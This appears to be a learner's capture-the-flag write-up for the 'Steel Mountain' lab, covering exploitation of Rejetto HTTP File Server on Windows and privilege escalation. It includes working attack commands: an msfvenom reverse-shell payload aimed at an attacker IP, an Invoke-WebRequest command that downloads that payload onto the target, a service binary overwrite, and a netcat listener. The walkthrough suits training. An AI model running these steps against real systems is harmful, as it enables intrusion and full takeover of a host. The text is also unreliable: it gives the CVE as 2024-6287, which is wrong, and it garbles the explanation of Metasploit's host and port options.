










# Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?
#### Solution:
##### Enumeration Part

Run the following nmap command in order to scan the target machine.

`sudo nmap -sS --top-ports 200 10.10.139.106`

Open the link to see the output of nmap: 

We can see that http-proxy is running on port 8080. So,
##### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

As I clicked, I shown up a page:

##### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showd me followind output:

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
`upload upload /path/to/PowerUp.ps1`
This path is the path of the script in your attacker machine.

Now, in meterpreter, hit the command:
`shell`
Then go to the path where Powerup.ps1 script is present and enter the followind command:
`powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"`

Above command will shown up the service that can be exploited, a part of it is shown below:

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

##### Creating paylod

using msfconsole, we can make our payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.25.176 LPORT=4443 -f exe -o Advanced.exe`

now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
`powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"`

Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

